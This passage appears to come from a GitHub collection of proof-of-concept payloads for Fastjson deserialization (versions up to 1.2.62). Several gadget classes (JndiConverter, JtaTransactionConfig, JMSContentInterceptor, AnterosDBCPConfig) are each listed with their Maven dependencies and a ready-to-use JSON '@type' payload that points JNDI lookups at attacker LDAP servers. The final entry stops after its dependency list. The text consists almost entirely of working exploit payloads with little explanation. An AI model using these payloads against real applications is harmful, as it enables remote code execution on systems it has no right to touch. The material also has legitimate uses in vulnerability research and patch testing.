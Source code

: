 poc:
```json
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","asText":"ldap://localhost:1389/Calc"}
```


### <= 1.2.62 com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig
pom.xml:
```xml
<dependency>
    <groupId>org.apache.ibatis</groupId>
    <artifactId>ibatis-sqlmap</artifactId>
    <version>2.3.4.726</version>
</dependency>
```

poc:
```json
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://192.168.85.1:1389/calc"}}
```

### <= 1.2.62 org.apache.cocoon.components.slide.impl.JMSContentInterceptor
pom.xml:
```xml
        <dependency>
            <groupId>slide</groupId>
            <artifactId>slide-kernel</artifactId>
            <version>2.1</version>
        </dependency>
        <dependency>
            <groupId>cocoon</groupId>
            <artifactId>cocoon-slide</artifactId>
            <version>2.1.11</version>
        </dependency>
```

poc:
```json
{"@type":"org.apache.cocoon.components.slide.impl.JMSContentInterceptor", "parameters": {"@type":"java.util.Hashtable","java.naming.factory.initial":"com.sun.jndi.rmi.registry.RegistryContextFactory","topic-factory":"ldap://192.168.85.1:1389/calc"}, "namespace":""}
```
in which `"java.naming.factory.initial":"com.sun.jndi.rmi.registry.RegistryContextFactory",` is essential.


### <=1.2.62 br.com.anteros.dbcp.AnterosDBCPConfig
pom.xml
```
        <dependency>
            <groupId>com.codahale.metrics</groupId>
            <artifactId>metrics-healthchecks</artifactId>
            <version>3.0.2</version>
        </dependency>
        <dependency>
            <groupId>br.com.anteros</groupId>
            <artifactId>Anteros-Core</artifactId>
            <version>1.2.1</version>
        </dependency>
        <dependency>
            <groupId>br.com.anteros</groupId>
            <artifactId>Anteros-DBCP</artifactId>
            <version>1.0.1</version>
        </dependency>
```